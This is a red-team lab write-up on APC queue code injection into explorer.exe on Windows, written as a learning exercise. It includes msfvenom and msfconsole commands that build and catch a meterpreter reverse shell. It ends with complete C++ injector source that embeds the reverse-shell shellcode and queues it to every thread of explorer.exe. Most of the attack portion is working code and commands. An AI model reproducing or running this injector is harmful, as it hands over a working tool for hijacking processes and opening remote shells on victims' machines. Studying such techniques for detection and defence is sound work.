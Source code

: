 # APC Queue Code Injection

This lab looks at the APC \(Asynchronous Procedure Calls\) queue code injection - a well known technique I had not played with in the past.

Some simplified context around threads and APC queues:

* Threads execute code within processes
* Threads can execute code asynchronously by leveraging APC queues
* Each thread has a queue that stores all the APCs
* Application can queue an APC to a given thread \(subject to privileges\)
* When a thread is scheduled, queued APCs get executed
* Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an [alertable](apc-queue-code-injection.md#alertable-state) state \(i.e [`SleepEx`](https://msdn.microsoft.com/en-us/library/ms686307%28v=VS.85%29.aspx)\)

## Execution

A high level overview of how this lab works:

* Write a C++ program apcqueue.exe that will:
  * Find explorer.exe process ID
  * Allocate memory in explorer.exe process memory space
  * Write shellcode to that memory location
  * Find all threads in explorer.exe
  * Queue an APC to all those threads. APC points to the shellcode
* Execute the above program
* When threads in explorer.exe get scheduled, our shellcode gets executed
* Rain of meterpreter shells

Let's start by creating a meterpreter shellcode to be injected into the victim process:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-26-111814.png)

I will be injecting the shellcode into `explorer.exe` since there's usually a lot of thread activity going on, so there is a better chance to encounter a thread in an alertable state that will kick off the shellcode. I will find the process I want to inject into with `Process32First` and `Process32Next` calls:

![](../../.gitbook/assets/annotation-2019-05-26-152927.png)

Once explorer PID is found, we need to get a handle to the explorer.exe process and allocate some memory for the shellcode. The shellcode is written to explorer's process memory and additionally, an APC routine, which now points to the shellcode, is declared:

![](../../.gitbook/assets/annotation-2019-05-26-151203.png)

If we compile and execute `apcqueue.exe`, we can indeed see the shellcode gets injected into the process successully:

![](../../.gitbook/assets/annotation-2019-05-26-133126.png)

A quick detour - the below shows a screenshot from the Process Hacker where our malicious program has a handle to explorer.exe - good to know for debugging and troubleshooting:

![](../../.gitbook/assets/annotation-2019-05-26-133312.png)

Back to the code - we can now enumerate all threads of explorer.exe and queue an APC \(points to the shellcode\) to them:

![sleep for some throttling](../../.gitbook/assets/annotation-2019-05-26-151757%20%281%29.png)

Switching gears to the attacking machine - let's fire up a multi handler and set an `autorunscript` to migrate meterpreter sessions to some other process before they die with the dying threads:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
set autorunscript post/windows/manage/migrate
```
{% endtab %}
{% endtabs %}

Once the `apcqueue` is compiled and run,  a meterpreter session is received - the technique worked:

![](../../.gitbook/assets/annotation-2019-05-26-134126.png)

## States

As mentioned earlier, in order for the APC code injection to work, the thread to which an APC is queued, needs to be in an `alertable` state. 

To get a better feel of what this means, I created another project called `alertable` that only did one thing - slept for 60 seconds. The application was sent to sleep using \(note the important second parameter\):

```cpp
DWORD SleepEx(
  DWORD dwMilliseconds,
  BOOL  bAlertable
);
```

Let's put the new project to sleep in both alertable and non-alertable states and see what heppens when an APC is queued to it.

### Alertable State

Let's compile the `alertable.exe` binary with `bAleertable = true` first and then launch the `apcqueue.exe`. 

Since `alertable.exe` was in an alertable state, the code got executed immediately and a meterpreter session was established:

![](../../.gitbook/assets/apcqueueinjection.gif)

### Non-Alertable State

Now let's recompile `alertable.exe` with `bAlertable == false` and try again - shellcode does not get executed:

![](../../.gitbook/assets/apcqueueinjection-nonalertable.gif)

## Powershell -sta

An interesting observation is that if you try injecting into powershell.exe which was started with a `-sta` switch \(Single Thread Apartment\), we do not need to spray the APC across all its threads - main thread is enough and gives a reliable shell:

![](../../.gitbook/assets/apc-powershell.gif)

Note that the injected powershell process becomes unresponsive. 

## Code

{% tabs %}
{% tab title="apcqueue.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(buf);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
		Sleep(1000 * 2);
	}
	
	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/" %}

{% embed url="http://rinseandrepeatanalysis.blogspot.com/2019/04/early-bird-injection-apc-abuse.html?m=1" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/sync/asynchronous-procedure-calls" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" %}

